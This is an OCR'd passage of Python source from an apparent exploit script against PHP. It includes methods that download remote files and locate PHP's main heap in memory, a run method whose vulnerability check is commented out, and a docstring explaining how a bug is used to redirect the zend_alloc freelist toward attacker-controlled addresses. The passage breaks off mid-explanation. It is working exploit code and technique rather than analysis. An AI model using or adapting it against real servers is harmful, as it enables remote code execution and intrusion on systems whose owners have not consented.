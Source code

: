 ```python
        """Downloads `remote_path` to `local_path`"""
        data = self.remote.data_decode(self.get_file(remote_path))
        Path(local_path).write(data)

    def find_main_heap(self, regions: list[Region]) -> Region:
        # Any anonymous RW region with a size superior to the base heap size is a
        # candidate. The heap is at the bottom of the region.
        heaps = [
            region.stop - HEAP_SIZE + 0x40
            for region in reversed(regions)
            if region.permissions == "rw-p"
            and region.size >= HEAP_SIZE
            and region.stop & (HEAP_SIZE-1) == 0
            and region.path in ("", "[anon:zend_alloc]")
        ]

        if not heaps:
            failure("Unable to find PHP's main heap in memory")

        first = heaps[0]

        if len(heaps) > 1:
            heaps = ", ".join(map(hex, heaps))
            msg_info(f"Potential heaps: [i]{heaps}[/] (using last one)")
        else:
            msg_info(f"Using [i]{hex(first)}[/] as heap")

        return first

    def run(self) -> None:
        #self.check_vulnerable()
        self.get_symbols_and_addresses()
        self.exploit()

    def build_exploit_path(self) -> str:
        """On each step of the exploit, a filter will process each chunk one after the
        other. Processing generally involves making some kind of operation either
        on the chunk or in a destination chunk of the same size. Each operation is
        applied on every single chunk; you cannot make PHP apply iconv on the first 10
        chunks and leave the rest in place. That's where the difficulties come from.

        Keep in mind that we know the address of the main heap, and the libraries.
        ASLR/PIE do not matter here.

        The idea is to use the bug to make the freelist for chunks of size 0x100 point
        lower. For instance, we have the following free list:

        ... -> 0x7fffAABBCC900 -> 0x7fffAABBCCA00 -> 0x7fffAABBCCB00

        By triggering the bug from chunk ..900, we get:

        ... -> 0x7fffAABBCCA00 -> 0x7fffAABBCCB48 -> ???

        That's step 3.

        Now, in order to control the free list, and make it point whereever we want,
        we need to have previously put a pointer at address 0x7fffAABBCCB48. To do so,
        we'd have to have allocated 0x7fffAABBCCB00 and set our pointer at offset 0x48.
        That's step 2.

        Now, if we were to perform step2 an then step3 without anything else, we'd have
        a problem: after step2 has been processed, the free list goes bottom-up, like:

```